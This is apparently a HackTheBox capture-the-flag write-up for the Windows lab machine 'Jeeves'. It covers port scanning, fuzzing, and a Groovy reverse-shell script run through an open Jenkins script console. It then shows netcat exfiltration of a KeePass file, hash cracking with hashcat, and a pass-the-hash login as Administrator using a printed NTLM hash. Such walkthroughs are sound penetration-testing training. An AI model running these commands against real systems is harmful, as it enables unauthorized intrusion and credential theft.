 # Jeeves

# User Flag

## NMAP Enumeration

All Port NMAP Scan:

```bash
sudo nmap -T5 --open -sS -vvv --min-rate=300 --max-retries=3 -p- -oN all-ports-nmap-report 10.10.10.63

PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack ttl 127
135/tcp   open  msrpc        syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
50000/tcp open  ibm-db2      syn-ack ttl 127
```

Port Service NMAP Scan:

```bash
nmap -sV -sC -Pn -v -oN nmap-report 10.10.10.63 -p 80,135,445,50000

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 5h00m01s, deviation: 0s, median: 5h00m01s
| smb2-time: 
|   date: 2024-05-26T17:52:03
|_  start_date: 2024-05-23T18:49:13
```

## Web - Ask Jeeves

Port 80 throws an error:

![Error Image](https://github.com/timmccann222/Public-Writeups-Library/blob/main/HackTheBox/Windows%20Machines/Jeeves/Images/Error%20Image.png)


* Fuzzed port 50000 with `ffuf` - found the directory `askjeeves`:

```bash
ffuf -c -u http://10.10.10.63:50000/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic

askjeeves               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 79ms]
```

Navigating to the directory `askjeeves`, I can see that Jenkins is on the server. I don't encounter a login panel and can go straight to running code to get a reverse shell:

1. Go to Manage `Jenkins -> Script Console`
2. Add Groovy script to execute this code on Windows machine:

```bash
Thread.start {
String host="<your_machine_IP>";
int port=<your_webserver_port>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
}
```

3. Setup netcat listener and run script and you should have session open in your listener.

Able to recover the user flag under the directory `kohsuke`:

```bash
Directory of C:\Users\kohsuke\Desktop

11/03/2017  11:19 PM    <DIR>          .
11/03/2017  11:19 PM    <DIR>          ..
11/03/2017  11:22 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)   2,496,675,840 bytes free
```


# Root Flag

In the `C:\Users\kohsuke\Documents` directory, I found a keepass database titled `CEH.kdbx`.

```bash
C:\Users\kohsuke\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\kohsuke\Documents

11/03/2017  11:18 PM    <DIR>          .
11/03/2017  11:18 PM    <DIR>          ..
09/18/2017  01:43 PM             2,846 CEH.kdbx
               1 File(s)          2,846 bytes
               2 Dir(s)   2,691,592,192 bytes free
```

Copied the file using netcat:

```bash
# Kali
nc -l -p 1234 > CEH.kdbx

# Target Machine
nc -w 3 <kali-ip> 1234 < CEH.kdbx
```


Used `keepass2john` to convert hash:

```bash
> keepass2john CEH.kdbx

CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
```

Used Hashcat to crack it:

```bash
hashcat64.exe -m 13400 -a 0 hash.txt rockyou.txt -o cracked.txt
```

Opened the Keepass database with `keepass2`:

```bash
keepass2 CEH.kdbx
```

Found a hash under `Backup stuff` title: `aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`.

Signed in using Pass The Hash attack:

```bash
pth-winexe -U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63 cmd
```

Found a file called `hm.txt`:

```bash
C:\Users\Administrator\Desktop>type hm.txt
type hm.txt
The flag is elsewhere.  Look deeper.
```

Check for **alternate data streams**:

```bash
C:\Users\Administrator\Desktop>dir /R
dir /R
 Volume in drive C has no label.
 Volume Serial Number is 71A1-6FA1

 Directory of C:\Users\Administrator\Desktop

05/26/2024  04:36 PM    <DIR>          .
05/26/2024  04:36 PM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
```

Use powershell to read full string of root.txt:

```bash
powershell (Get-Content hm.txt -Stream root.txt)
```


# Resources

* [Hashcat Hash Types](https://hashcat.net/wiki/doku.php?id=example_hashes)

















